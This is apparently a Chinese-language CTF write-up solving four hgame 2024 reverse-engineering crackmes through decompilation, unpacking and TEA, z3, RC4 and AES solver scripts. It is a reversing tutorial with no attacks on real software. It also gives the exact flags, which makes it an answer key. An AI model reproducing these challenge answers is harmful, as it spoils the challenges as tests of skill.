

```plain-text
PS D:\Workspace\rev\hgame_2024\week_2\arithmetic> upx -f -d .\arithmetic.1.exe
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2023
UPX 4.0.2       Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 30th 2023

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     11264 <-      8704   77.27%    win64/pe     arithmetic.1.exe

Unpacked 1 file.
PS D:\Workspace\rev\hgame_2024\week_2\arithmetic>
```

可以看到核心是一个从(0, 0)开始的最大下降路径算法。

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned int t; // eax
  __int64 i_1; // rbx
  int n_rows_p1; // esi
  int v6; // edi
  FILE *fd; // rbp
  int j; // edx
  int i; // eax
  int sum; // edi
  __int64 n_rows; // r14
  __int64 j_1; // rbp
  __int64 i_p1x500_1; // rsi
  int choice; // eax
  __int64 v15; // rcx
  int v16; // eax

  t = time64(0i64);
  srand(t);
  i_1 = 1i64;
  n_rows_p1 = 1;
  v6 = 1;
  fd = fopen("out", "rb");
  if ( lib_scanf(fd, "%d", &arr_mat[501]) != -1 )
  {
    do
    {
      j = 1;
      if ( n_rows_p1 != v6 )
        j = v6 + 1;
      i = n_rows_p1 + 1;
      if ( n_rows_p1 != v6 )
        i = n_rows_p1;
      v6 = j;
      n_rows_p1 = i;
    }
    while ( lib_scanf(fd, "%d", &arr_mat[500 * i + j]) != -1 );
  }
  sum = arr_mat[501];
  n_rows = n_rows_p1 - 1;
  if ( n_rows >= 1 )
  {
    j_1 = 1i64;
    i_p1x500_1 = 1000i64;
    do
    {
      choice = rand() % 2 + 1;
      v15 = i_p1x500_1 + j_1;
      arr_path[i_1] = choice;
      if ( choice == 1 )
      {
        v16 = arr_mat[v15];
      }
      else
      {
        v16 = arr_mat[v15 + 1];
        ++j_1;
      }
      sum += v16;
      ++i_1;
      i_p1x500_1 += 500i64;
    }
    while ( i_1 <= n_rows );
  }
  if ( sum >= 6752833 )
    lib_printf("hgame{path_32-bit_md5_lowercase_encrypt}");
  return 0;
}
```

直接暴力求解。

```python
from pwn import *

def max_falling_path(matrix: list[list[int]]) -> tuple[int, list[int]]:
    rows, cols = len(matrix), len(matrix[0])
    dp: list[list[tuple[int, list[int]]]] = [[(0, [])] * cols for _ in range(rows)]
    for i in range(cols):
        dp[0][i] = (matrix[0][i], [])
    for i in range(1, rows):
        for j in range(cols):
            if j == 0:
                dp[i][j] = (matrix[i][j] + dp[i - 1][j][0], dp[i - 1][j][1] + [1])
            else:
                if dp[i - 1][j][0] >= dp[i - 1][j - 1][0]:
                    dp[i][j] = (matrix[i][j] + dp[i - 1][j][0], dp[i - 1][j][1] + [1])
                else:
                    dp[i][j] = (
                        matrix[i][j] + dp[i - 1][j - 1][0],
                        dp[i - 1][j - 1][1] + [2],
                    )
    vals = list(map(lambda p: p[0], dp[rows - 1]))
    idx_max_val = vals.index(max(vals))
    return dp[rows - 1][idx_max_val]

def traverse(matrix: list[list[int]], path: list[int]) -> int:
    i, j = 0, 0
    sum = matrix[0][0]
    for p in path:
        if p == 2:
            j += 1
        i += 1
        sum += matrix[i][j]
    return sum

arr_mat = []
with open("arithmetic/out", "rt") as f:
    for line in f:
        ints = list(map(int, line.split()))
        ints_padded = ints + [0] * (500 - len(ints))
        arr_mat.append(ints_padded)

result = max_falling_path(arr_mat)
assert result[0] >= 6752833 and traverse(arr_mat, result[1]) == result[0]
success("".join(map(lambda x: str(x), max_falling_path(arr_mat)[1])))
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_2> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_2/arithmetic/sol.py
[+] 1111111222221111111122111221112222212211111122211211211211122221222111222212111221222222112111112122221112111222122222111111121111111211212211122221112111211211111212222212121111111121222221212111111212211121111222211221221122212222121222211211212121222222121122112122221111212111221121122112111122212221211111211121121112222222122121222222111112222112121111121221112211111112111122211112111221121221112212211211111222221221122122222212222121212111221121111222122211121222121222222122122121211211211
PS D:\Workspace\rev\hgame_2024\week_2>
```

MD5 即可得到 flag。

<https://cyberchef.org/#recipe=MD5()&input=MTExMTExMTIyMjIyMTExMTExMTEyMjExMTIyMTExMjIyMjIxMjIxMTExMTEyMjIxMTIxMTIxMTIxMTEyMjIyMTIyMjExMTIyMjIxMjExMTIyMTIyMjIyMjExMjExMTExMjEyMjIyMTExMjExMTIyMjEyMjIyMjExMTExMTEyMTExMTExMTIxMTIxMjIxMTEyMjIyMTExMjExMTIxMTIxMTExMTIxMjIyMjIxMjEyMTExMTExMTEyMTIyMjIyMTIxMjExMTExMTIxMjIxMTEyMTExMTIyMjIxMTIyMTIyMTEyMjIxMjIyMjEyMTIyMjIxMTIxMTIxMjEyMTIyMjIyMjEyMTEyMjExMjEyMjIyMTExMTIxMjExMTIyMTEyMTEyMjExMjExMTEyMjIxMjIyMTIxMTExMTIxMTEyMTEyMTExMjIyMjIyMjEyMjEyMTIyMjIyMjExMTExMjIyMjExMjEyMTExMTEyMTIyMTExMjIxMTExMTExMjExMTEyMjIxMTExMjExMTIyMTEyMTIyMTExMjIxMjIxMTIxMTExMTIyMjIyMTIyMTEyMjEyMjIyMjIxMjIyMjEyMTIxMjExMTIyMTEyMTExMTIyMjEyMjIxMTEyMTIyMjEyMTIyMjIyMjEyMjEyMjEyMTIxMTIxMTIxMQ>

`hgame{934f7f68145038b3b81482b3d9f3a355}`

### ezcpp

>

修改过的 TEA。

```c
__int64 __fastcall encrypt(data_ *a1)
{
  int v1; // r10d
  __int64 v2; // rbx
  int v3; // r11d
  __int64 v4; // rdi
  int v5; // r8d
  int v6; // r9d
  int v7; // r11d
  __int64 v8; // rdi
  int v9; // r8d
  int v10; // r9d
  uint32_t delta; // esi
  uint32_t k_1; // ebp
  uint32_t k_0; // r14d
  uint32_t k_3; // r15d
  uint32_t k_2; // r12d
  int v16; // r11d
  __int64 v17; // rdi
  int v18; // r8d
  int v19; // r9d
  int v20; // r8d
  int v21; // r9d
  __int64 result; // rax

  a1->key[0] = 1234;
  v1 = 0;
  a1->key[1] = 2341;
  v2 = 32i64;
  a1->key[2] = 3412;
  v3 = 0;
  a1->key[3] = 4123;
  v4 = 32i64;
  a1->delta = 0xDEADBEEF;
  v5 = *(_DWORD *)a1->buf;
  v6 = *(_DWORD *)&a1->buf[4];
  do
  {
    v3 -= -0xDEADBEEF;
    v5 += (v3 + v6) ^ (16 * v6 + 1234) ^ (32 * v6 + 2341);
    v6 += (v3 + v5) ^ (16 * v5 + 3412) ^ (32 * v5 + 4123);
    --v4;
  }
  while ( v4 );
  *(_DWORD *)a1->buf = v5;
  v7 = 0;
  *(_DWORD *)&a1->buf[4] = v6;
  v8 = 32i64;
  v9 = *(_DWORD *)&a1->buf[1];
  v10 = *(_DWORD *)&a1->buf[5];
  delta = a1->delta;
  k_1 = a1->key[1];
  k_0 = a1->key[0];
  k_3 = a1->key[3];
  k_2 = a1->key[2];
  do
  {
    v7 += delta;
    v9 += (v7 + v10) ^ (k_1 + 32 * v10) ^ (k_0 + 16 * v10);
    v10 += (v7 + v9) ^ (k_3 + 32 * v9) ^ (k_2 + 16 * v9);
    --v8;
  }
  while ( v8 );
  *(_DWORD *)&a1->buf[1] = v9;
  v16 = 0;
  *(_DWORD *)&a1->buf[5] = v10;
  v17 = 32i64;
  v18 = *(_DWORD *)&a1->buf[2];
  v19 = *(_DWORD *)&a1->buf[6];
  do
  {
    v16 += delta;
    v18 += (v16 + v19) ^ (k_1 + 32 * v19) ^ (k_0 + 16 * v19);
    v19 += (v16 + v18) ^ (k_3 + 32 * v18) ^ (k_2 + 16 * v18);
    --v17;
  }
  while ( v17 );
  *(_DWORD *)&a1->buf[2] = v18;
  *(_DWORD *)&a1->buf[6] = v19;
  v20 = *(_DWORD *)&a1->buf[3];
  v21 = *(_DWORD *)&a1->buf[7];
  do
  {
    v1 += delta;
    v20 += (v1 + v21) ^ (k_1 + 32 * v21) ^ (k_0 + 16 * v21);
    result = (unsigned int)(v1 + v20);
    v21 += result ^ (k_3 + 32 * v20) ^ (k_2 + 16 * v20);
    --v2;
  }
  while ( v2 );
  *(_DWORD *)&a1->buf[3] = v20;
  *(_DWORD *)&a1->buf[7] = v21;
  return result;
}

int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rax
  __int64 v4; // rcx
  const char *v5; // rdx
  __int64 v6; // rax
  struct data_ v8; // [rsp+20h] [rbp-48h] BYREF

  v3 = sub_140001320(std::cout, (__int64)"plz input flag:");
  std::ostream::operator<<(v3, sub_1400014F0);
  sub_140001010("%32s", (const char *)&v8);
  encrypt(&v8);
  v4 = 0i64;
  while ( byte_1400032F8[v4] == v8.buf[v4] )
  {
    if ( ++v4 >= 32 )
    {
      v5 = "Congratulations!";
      goto LABEL_6;
    }
  }
  v5 = "Sry...plz try again";
LABEL_6:
  v6 = sub_140001320(std::cout, (__int64)v5);
  std::ostream::operator<<(v6, sub_1400014F0);
  return 0;
}
```

解密代码：

```c
#define _CRT_SECURE_NO_WARNINGS

#include <assert.h>
#include <stdio.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <ctype.h>
#include <wchar.h>

#pragma warning(push)
#pragma warning(disable:6031)

static const uint32_t KEY[] = {1234, 2341, 3412, 4123};

static const uint32_t DELTA = 0xDEADBEEF;

static uint8_t arr[] = {
    0x88, 0x6A, 0xB0, 0xC9, 0xAD, 0xF1, 0x33, 0x33, 0x94, 0x74, 0xB5, 0x69, 0x73, 0x5F, 0x30, 0x62,
    0x4A, 0x33, 0x63, 0x54, 0x5F, 0x30, 0x72, 0x31, 0x65, 0x6E, 0x54, 0x65, 0x44, 0x3F, 0x21, 0x7D
};

void decrypt(uint32_t *pv0, uint32_t *pv1, uint32_t *k, uint32_t delta) {
    uint32_t v0 = *pv0, v1 = *pv1, sum = delta * 32, i;
    uint32_t k0 = k[0], k1 = k[1], k2 = k[2], k3 = k[3];
    for (i = 0; i < 32; i++) {
        v1 -= ((v0 << 4) + k2) ^ (v0 + sum) ^ ((v0 << 5) + k3);
        v0 -= ((v1 << 4) + k0) ^ (v1 + sum) ^ ((v1 << 5) + k1);
        sum -= delta;
    }
    *pv0 = v0; *pv1 = v1;
}

int main(void) {
    decrypt((uint32_t *)&arr[3], (uint32_t *)&arr[7], KEY, DELTA);
    decrypt((uint32_t *)&arr[2], (uint32_t *)&arr[6], KEY, DELTA);
    decrypt((uint32_t *)&arr[1], (uint32_t *)&arr[5], KEY, DELTA);
    decrypt((uint32_t *)&arr[0], (uint32_t *)&arr[4], KEY, DELTA);

    for (int i = 0; i < sizeof(arr); i++) {
        putchar(((char *)arr)[i]);
    }
    putchar('\n');

    return 0;
}

#pragma warning(pop)
```

`hgame{#Cpp_is_0bJ3cT_0r1enTeD?!}`

### babyre

>

多处隐藏的修改。

main 函数里面挂了浮点异常捕获，很可疑。

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  int i; // [rsp+0h] [rbp-40h]
  int j; // [rsp+4h] [rbp-3Ch]
  pthread_t thrds[4]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v7; // [rsp+38h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  fun_input();
  if ( !__sigsetjmp(env, 1) )
  {
    signal(SIGFPE, handler_sigfpe);
    for ( i = 0; i <= 5; ++i )
      arr_key[i] ^= 0x11u;
  }
  sem_init(sems, 0, 1u);
  sem_init(&sems[1], 0, 0);
  sem_init(&sems[2], 0, 0);
  sem_init(&sems[3], 0, 0);
  pthread_create(thrds, 0LL, entry_thrd_1, 0LL);
  pthread_create(&thrds[1], 0LL, entry_thrd_2, 0LL);
  pthread_create(&thrds[2], 0LL, entry_thrd_3, 0LL);
  pthread_create(&thrds[3], 0LL, entry_thrd_4, 0LL);
  for ( j = 0; j <= 3; ++j )
    pthread_join(thrds[j], 0LL);
  fun_check();
  return 0LL;
}
```

其他逻辑比较简单。

```c
void __fastcall fun_input()
{
  int i; // [rsp+Ch] [rbp-74h]
  char s[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v2; // [rsp+78h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("plz input your answer:");
  __isoc99_scanf("%s", s);
  if ( strlen(s) != 32 )
  {
    puts("length error!");
    exit(0);
  }
  for ( i = 0; i <= 31; ++i )
    arr_buf[i] = s[i];
  arr_buf[32] = 249;
}

void __noreturn handler_sigfpe()
{
  ++arr_buf[32];
  siglongjmp(env, 1);
}

void __fastcall __noreturn entry_thrd_1(void *a1)
{
  while ( 1 )
  {
    sem_wait(sems);
    if ( counter > 31 )
      break;
    arr_buf[counter] += (char)arr_key[(counter + 1) % 6] * arr_buf[counter + 1];
    ++counter;
    sem_post(&sems[1]);
  }
  sem_post(&sems[1]);
  pthread_exit(0LL);
}

void __fastcall __noreturn entry_thrd_2(void *a1)
{
  while ( 1 )
  {
    sem_wait(&sems[1]);
    if ( counter > 31 )
      break;
    arr_buf[counter] -= (char)arr_key[(counter + 1) % 6] ^ arr_buf[counter + 1];
    ++counter;
    sem_post(&sems[2]);
  }
  sem_post(&sems[2]);
  pthread_exit(0LL);
}

void __fastcall __noreturn entry_thrd_3(void *a1)
{
  while ( 1 )
  {
    sem_wait(&sems[2]);
    if ( counter > 31 )
      break;
    arr_buf[counter] *= arr_buf[counter + 1] + (char)arr_key[(counter + 1) % 6];
    ++counter;
    sem_post(&sems[3]);
  }
  sem_post(&sems[3]);
  pthread_exit(0LL);
}

void __fastcall __noreturn entry_thrd_4(void *a1)
{
  while ( 1 )
  {
    sem_wait(&sems[3]);
    if ( counter > 31 )
      break;
    arr_buf[counter] ^= arr_buf[counter + 1] - (char)arr_key[(counter + 1) % 6];
    ++counter;
    sem_post(sems);
  }
  sem_post(sems);
  pthread_exit(0LL);
}
```

下面需要找到这个浮点异常在哪里发出。

```plain-text
.text:000055702A36E8A4                 mov     esi, 1          ; savemask
.text:000055702A36E8A9                 lea     rax, env
.text:000055702A36E8B0                 mov     rdi, rax        ; env
.text:000055702A36E8B3                 call    ___sigsetjmp
.text:000055702A36E8B8                 endbr64
.text:000055702A36E8BC                 test    eax, eax
.text:000055702A36E8BE                 jnz     short L_RECOVER
.text:000055702A36E8C0                 lea     rax, handler_sigfpe
.text:000055702A36E8C7                 mov     rsi, rax        ; handler
.text:000055702A36E8CA                 mov     edi, 8          ; sig
.text:000055702A36E8CF                 call    _signal
.text:000055702A36E8D4                 mov     [rbp+var_40], 0
.text:000055702A36E8DB                 jmp     short L_LOOP_INIT
.text:000055702A36E8DD ; ---------------------------------------------------------------------------
.text:000055702A36E8DD
.text:000055702A36E8DD L_LOOP_BODY:                            ; CODE XREF: main+9F↓j
.text:000055702A36E8DD                 mov     eax, [rbp+var_40]
.text:000055702A36E8E0                 sub     eax, 3
.text:000055702A36E8E3                 mov     [rbp+var_38], eax
.text:000055702A36E8E6                 mov     eax, 1
.text:000055702A36E8EB                 cdq
.text:000055702A36E8EC                 idiv    [rbp+var_38]
.text:000055702A36E8EF                 mov     [rbp+var_34], eax
.text:000055702A36E8F2                 mov     eax, [rbp+var_40]
.text:000055702A36E8F5                 cdqe
.text:000055702A36E8F7                 lea     rdx, arr_key
.text:000055702A36E8FE                 movzx   eax, byte ptr [rax+rdx]
.text:000055702A36E902                 xor     eax, 11h
.text:000055702A36E905                 mov     ecx, eax
.text:000055702A36E907                 mov     eax, [rbp+var_40]
.text:000055702A36E90A                 cdqe
.text:000055702A36E90C                 lea     rdx, arr_key
.text:000055702A36E913                 mov     [rax+rdx], cl
.text:000055702A36E916                 add     [rbp+var_40], 1
.text:000055702A36E91A
.text:000055702A36E91A L_LOOP_INIT:                            ; CODE XREF: main+5C↑j
.text:000055702A36E91A                 cmp     [rbp+var_40], 5
.text:000055702A36E91E                 jle     short L_LOOP_BODY
.text:000055702A36E920
.text:000055702A36E920 L_RECOVER:                              ; CODE XREF: main+3F↑j
```

注意这里的 `idiv [rbp+var_38]` 指令。当循环累加器 eax 等于 3 的时候不会继续进行对 arr_key[eax]的异或，而是发出浮点异常，进入处理函数。处理函数中显然将 eax 修改为一个非零值，因此从处理函数返回 sigsetjmp 的环境后（即 `.text:000055702A36E8B8` 处的 `endbr64` 会让下面的 `jnz short L_RECOVER` 变为 taken，跳过后面的循环。这个处理函数还会修改 arr_buf[32]。

另外，初始化器也经过了修改，将 arr_key 修改为 b"feifei"。

```plain-text
.init_array:000055702A370D48 ; ELF Initialization Function Table
.init_array:000055702A370D48 ; ===========================================================================
.init_array:000055702A370D48
.init_array:000055702A370D48 ; Segment type: Pure data
.init_array:000055702A370D48 ; Segment permissions: Read/Write
.init_array:000055702A370D48 _init_array     segment qword public 'DATA' use64
.init_array:000055702A370D48                 assume cs:_init_array
.init_array:000055702A370D48                 ;org 55702A370D48h
.init_array:000055702A370D48                 dq offset sub_55702A36E2E0
.init_array:000055702A370D50                 dq offset fun_nasty_change
.init_array:000055702A370D50 _init_array     ends
.init_array:000055702A370D50
```

```c
void fun_nasty_change()
{
  strcpy((char *)arr_key, "feifei");
}
```

经历上述分析，我们不难写出解密脚本。

```python
import typing

import z3
from pwn import *

ARR_KEY = [ord("f"), ord("e"), ord("i"), ord("f"), ord("e"), ord("i")]
ARR_TARGET = [
    0x00002F14, 0x0000004E, 0x00004FF3, 0x0000006D,
    0x000032D8, 0x0000006D, 0x00006B4B, 0xFFFFFF92,
    0x0000264F, 0x0000005B, 0x000052FB, 0xFFFFFF9C,
    0x00002B71, 0x00000014, 0x00002A6F, 0xFFFFFF95,
    0x000028FA, 0x0000001D, 0x00002989, 0xFFFFFF9B,
    0x000028B4, 0x0000004E, 0x00004506, 0xFFFFFFDA,
    0x0000177B, 0xFFFFFFFC, 0x000040CE, 0x0000007D,
    0x000029E3, 0x0000000F, 0x00001F11, 0x000000FF,
]

N_UNKNOWNS = 32
UNK_WIDTH = 32

x = [z3.BitVec(f"x_{i}", UNK_WIDTH) for i in range(N_UNKNOWNS)]

solver = z3.Solver()

for i in range(0, 3):
    ARR_KEY[i] ^= 0x11

counter = 0
arr_buf = [xi for xi in x] + [z3.BitVecVal(250, UNK_WIDTH)]

for i in range(8):
    arr_buf[counter] += ARR_KEY[(counter + 1) % 6] * arr_buf[counter + 1]
    counter += 1
    arr_buf[counter] -= ARR_KEY[(counter + 1) % 6] ^ arr_buf[counter + 1]
    counter += 1
    arr_buf[counter] *= arr_buf[counter + 1] + ARR_KEY[(counter + 1) % 6]
    counter += 1
    arr_buf[counter] ^= arr_buf[counter + 1] - ARR_KEY[(counter + 1) % 6]
    counter += 1

for i in range(0, 32):
    solver.add(arr_buf[i] == ARR_TARGET[i])

if solver.check() != z3.sat:
    error("Unsat")
    exit(1)

result: list[typing.Any] = [0] * N_UNKNOWNS
m = solver.model()
for d in m.decls():
    result[int(d.name()[2:])] = m[d].as_long()  # type: ignore

success("".join((chr(x) for x in result)))
```

```plain-text
PS D:\Workspace\rev\hgame_2024> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_2/babyre/sol.py
[+] hgame{you_are_3o_c1ever2_3Olve!}
PS D:\Workspace\rev\hgame_2024>
```

`hgame{you_are_3o_c1ever2_3Olve!}`

### babyAndroid

>

```java
/* loaded from: classes.dex */_
_public class MainActivity extends AppCompatActivity implements View.OnClickListener {_
_    ..._

_    public native boolean check2(byte[] bArr, byte[] bArr2);_

_    static {_
_        System.loadLibrary("babyandroid");_
_    }_

_    /* JADX INFO: Access modifiers changed from: protected */_
_    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity_
_    public void onCreate(Bundle bundle) {_
_        ..._
_    }_

_    @Override // android.view.View.OnClickListener_
_    public void onClick(View view) {_
_        byte[] username_ = this.username.getText().toString().getBytes();_
_        byte[] password_ = this.password.getText().toString().getBytes();
        // **public** **static** **int** key = 0x7f0f0030;
        // **<string** **name**=**"key">**3e1fel**</string>**_
_        if (new Check1(getResources().getString(C0566R.string.key).getBytes()).check(username_)) {_
_            if (check2(username_, password_)) {_
_                Toast.makeText(this, "Congratulate!!!^_^", 0).show();_
_                return;_
_            } else {_
_                Toast.makeText(this, "password wrong!!!>_<", 0).show();_
_                return;_
_            }_
_        }_
_        Toast.makeText(this, "username wrong!!!>_<", 0).show();_
_    }_
_}
```

Check1：

```java
package com.feifei.babyandroid;

import java.util.Arrays;

/* loaded from: classes.dex */
public class Check1 {
    private byte[] S = new byte[256];
    private int i;
    private int j;

    public Check1(byte[] bArr) {
        for (int i = 0; i < 256; i++) {
            this.S[i] = (byte) i;
        }
        int i2 = 0;
        for (int i3 = 0; i3 < 256; i3++) {
            byte[] bArr2 = this.S;
            i2 = (i2 + bArr2[i3] + bArr[i3 % bArr.length]) & 255;
            swap(bArr2, i3, i2);
        }
        this.i = 0;
        this.j = 0;
    }

    private void swap(byte[] bArr, int i, int i2) {
        byte b = bArr[i];
        bArr[i] = bArr[i2];
        bArr[i2] = b;
    }

    public byte[] encrypt(byte[] bArr) {
        byte[] bArr2 = new byte[bArr.length];
        for (int i = 0; i < bArr.length; i++) {
            int i2 = (this.i + 1) & 255;
            this.i = i2;
            int i3 = this.j;
            byte[] bArr3 = this.S;
            int i4 = (i3 + bArr3[i2]) & 255;
            this.j = i4;
            swap(bArr3, i2, i4);
            byte[] bArr4 = this.S;
            bArr2[i] = (byte) (bArr4[(bArr4[this.i] + bArr4[this.j]) & 255] ^ bArr[i]);
        }
        return bArr2;
    }

    public boolean check(byte[] bArr) {
        return Arrays.equals(new byte[]{-75, 80, 80, 48, -88, 75, 103, 45, -91, 89, -60, 91, -54, 5, 6, -72}, encrypt(bArr));
    }
}
```

不难发现 Check1 是一个 RC4。

```python
from pwn import *

CHECK1_KEY = b"3e1fel"
CHECK1_CIPHER = b"\xb5\x50\x50\x30\xa8\x4b\x67\x2d\xa5\x59\xc4\x5b\xca\x05\x06\xb8"

class RC4:
    S: list[int] = [0] * 256

    def __init__(self, key: bytes):
        for i in range(256):
            self.S[i] = i
        j = 0
        for i in range(256):
            j = (j + self.S[i] + key[i % len(key)]) % 256
            self.S[i], self.S[j] = self.S[j], self.S[i]
        self.i = 0
        self.j = 0

    def encrypt(self, plain: bytes):
        cipher = bytearray()
        for char in plain:
            self.i = (self.i + 1) % 256
            self.j = (self.j + self.S[self.i]) % 256
            self.S[self.i], self.S[self.j] = self.S[self.j], self.S[self.i]
            cipher.append(char ^ self.S[(self.S[self.i] + self.S[self.j]) % 256])
        return bytes(cipher)

    def decrypt(self, cipher: bytes):
        return self.encrypt(cipher)

check1 = RC4(CHECK1_KEY)
username = check1.decrypt(CHECK1_CIPHER)
success(f"Username: {username.decode('utf-8')}")
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_2> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_2/babyAndroid/sol.py
[+] Username: G>IkH<aHu5FE3GSV
PS D:\Workspace\rev\hgame_2024\week_2>
```

<https://github.com/evilpan/jni_helper>

```plain-text
(pwnenv) PS D:\Workspace\rev\hgame_2024\week_2\babyAndroid> python D:\dist\jni_helper-master\extract_jni.py .\attachment.1.apk
[10:33:08] Parsing .\attachment.1.apk with 32 workers ...                                             extract_jni.py:257
           Found 1 DEX files.                                                                         extract_jni.py:259
[10:33:13] Parse classes.dex (8617964 bytes), found 6468 classes.                                     extract_jni.py:287
Analyzing Dex... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00 0:00:04
           Aanlyzed 6468 classes, cost: 0:00:04.770941                                                extract_jni.py:295
           Found 1 so files.                                                                          extract_jni.py:300
           Found 1 JNI symbols in lib/arm64-v8a/libbabyandroid.so.                                    extract_jni.py:305
{
  "dexInfo": {
    "__COMMON__": [
      {
        "mangle": "JNI_OnLoad",
        "ret": "jint",
        "args": [
          "JavaVM * vm",
          "void * reserved"
        ]
      },
      {
        "mangle": "JNI_OnUnload",
        "ret": "void",
        "args": [
          "JavaVM * vm",
          "void * reserved"
        ]
      }
    ],
    "com.feifei.babyandroid.MainActivity": [
      {
        "mangle": "Java_com_feifei_babyandroid_MainActivity_check2",
        "ret": "jboolean",
        "args": [
          "JNIEnv * env",
          "jobject this",
          "jbyteArray a1",
          "jbyteArray a2"
        ],
        "name": "check2",
        "sig": "([B[B)Z"
      }
    ]
  },
  "soInfo": {
    "lib/arm64-v8a/libbabyandroid.so": {
      "JNI_OnLoad": 2548
    }
  }
}
(pwnenv) PS D:\Workspace\rev\hgame_2024\week_2\babyAndroid> python D:\dist\jni_helper-master\extract_jni.py -o native.json .\attachment.1.apk
[10:33:34] Parsing .\attachment.1.apk with 32 workers ...                                             extract_jni.py:257
           Found 1 DEX files.                                                                         extract_jni.py:259
[10:33:38] Parse classes.dex (8617964 bytes), found 6468 classes.                                     extract_jni.py:287
Analyzing Dex... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00 0:00:04
           Aanlyzed 6468 classes, cost: 0:00:04.688479                                                extract_jni.py:295
           Found 1 so files.                                                                          extract_jni.py:300
           Found 1 JNI symbols in lib/arm64-v8a/libbabyandroid.so.                                    extract_jni.py:305
(pwnenv) PS D:\Workspace\rev\hgame_2024\week_2\babyAndroid>
```

用 Findcrypt 可以发现 Check2 是某种模式的 AES，密钥就是用户名 `b"G>IkH<aHu5FE3GSV"`。





dump 出来后进行解密。

<https://cyberchef.org/#recipe=From_Hex('Auto')AES_Decrypt(%7B'option':'Latin1','string':'G%3EIkH%3CaHu5FE3GSV'%7D,%7B'option':'Hex','string':''%7D,'ECB/NoPadding','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=MHg2NCwgMHhBMiwgMHg4MCwgMHhGRCwgMHgxQiwgMHgyMCwgMHhEMiwgMHg4RSwgMHhGQywgMHg1MiwgMHg5RSwgMHgxMywgMHhFRSwgMHhBMSwgMHhGRCwgMHgxRSwgMHg2NiwgMHgwQiwgMHg3QSwgMHg3MiwgMHhBMywgMHgxQiwgMHhEOCwgMHgzNiwgMHg2RiwgMHhEQywgMHgzRCwgMHhFRSwgMHgzQywgMHgwMSwgMHg1NywgMHg2Mw>

